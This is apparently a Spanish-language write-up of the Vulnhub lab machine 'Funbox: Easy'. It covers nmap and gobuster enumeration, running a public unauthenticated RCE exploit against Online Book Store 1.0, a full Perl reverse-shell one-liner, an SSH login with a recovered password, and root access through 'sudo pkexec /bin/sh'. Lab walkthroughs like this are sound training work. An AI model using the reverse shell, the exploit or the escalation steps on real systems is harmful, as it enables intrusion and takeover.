 +++
title = 'Funbox: Easy - Vulnhub'
+++

[link => Funbox: Easy](https://www.vulnhub.com/entry/funbox-easy,526/#download) 

---

## Escaneo de red con nmap para descubrir máquina objetivo

```bash
nmap -sn 10.38.1.0/24
```

![nmaphd](/images/writeups/vulnhub/funboxeasy/nmaphd.png)

### La IP de la máquina objetivo es **10.38.1.16**

## Escaneo de la máquina objetivo en busca de puertos abiertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.38.1.16 -oN target_scan.nmap
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 21:44 EDT
Initiating ARP Ping Scan at 21:44
Scanning 10.38.1.16 [1 port]
Completed ARP Ping Scan at 21:44, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:44
Scanning 10.38.1.16 [65535 ports]
Discovered open port 80/tcp on 10.38.1.16
Discovered open port 22/tcp on 10.38.1.16
Discovered open port 33060/tcp on 10.38.1.16
Completed SYN Stealth Scan at 21:44, 3.11s elapsed (65535 total ports)
Nmap scan report for 10.38.1.16
Host is up, received arp-response (0.000090s latency).
Scanned at 2024-04-12 21:44:19 EDT for 3s
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 64
80/tcp    open  http    syn-ack ttl 64
33060/tcp open  mysqlx  syn-ack ttl 64
MAC Address: 08:00:27:9D:49:4A (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.53 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

### **Puertos Abiertos: 22,80,33060**

## Ejecución de scripts con nmap

```bash
sudo nmap -sCV -p22,80,33060 10.38.1.16 -oN scripts_exec.nmap
```

```bash
Nmap scan report for 10.38.1.16
Host is up (0.00066s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:d8:51:6e:c5:84:05:19:08:eb:c8:58:27:13:13:2f (RSA)
|   256 b0:de:97:03:a7:2f:f4:e2:ab:4a:9c:d9:43:9b:8a:48 (ECDSA)
|_  256 9d:0f:9a:26:38:4f:01:80:a7:a6:80:9d:d1:d4:cf:ec (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_gym
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
```

## Enumeración de directorios con gobuster

```bash
gobuster dir -u http://10.38.1.16/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.38.1.16/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/store                (Status: 301) [Size: 308] [--> http://10.38.1.16/store/]
/admin                (Status: 301) [Size: 308] [--> http://10.38.1.16/admin/]
/secret               (Status: 301) [Size: 309] [--> http://10.38.1.16/secret/]
/gym                  (Status: 301) [Size: 306] [--> http://10.38.1.16/gym/]
/server-status        (Status: 403) [Size: 275]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## Búsqueda de exploit para el software CSE bookstore

```bash
searchsploit Online Book Store 1.0 - Unauthenticated Remote Code Execution
```
```bash
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Online Book Store 1.0 - Unauthenticated Remote Code Execution                | php/webapps/47887.py
----------------------------------------------------------------------------- ---------------------------------
```

### Ejecución de exploit con python

```bash
python3 book_store_exploit.py http://10.38.1.16/store/
```
### Ejecución de comandos 

#### Revshell perl

```pl
perl -e 'use Socket;$i="10.38.1.10";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Contraseña encontrada para el usuario tony en password.txt

![password](/images/writeups/vulnhub/funboxeasy/password.png)

## Conexión vía ssh con el usuario tony y contraseña yxcvbnmYYY

```bash
ssh tony@10.38.1.16
```

## Permisos sudo 

```bash
tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

## Escalada de privilegios con pkexec

```bash
tony@funbox3:~$ sudo pkexec /bin/sh
```

## Flag del usuario root

```bash
# whoami
root
# cd ..
# ls
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  swap.img  tmp  var
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   sys       usr
# cd root
# ls
root.flag  snap
# cat root.flag
 __________          ___.                      ___________                     
\_   _____/_ __  ____\_ |__   _______  ___ /\  \_   _____/____    _________.__.
 |    __)|  |  \/    \| __ \ /  _ \  \/  / \/   |    __)_\__  \  /  ___<   |  |
 |     \ |  |  /   |  \ \_\ (  <_> >    <  /\   |        \/ __ \_\___ \ \___  |
 \___  / |____/|___|  /___  /\____/__/\_ \ \/  /_______  (____  /____  >/ ____|
     \/             \/    \/            \/             \/     \/     \/ \/     

```

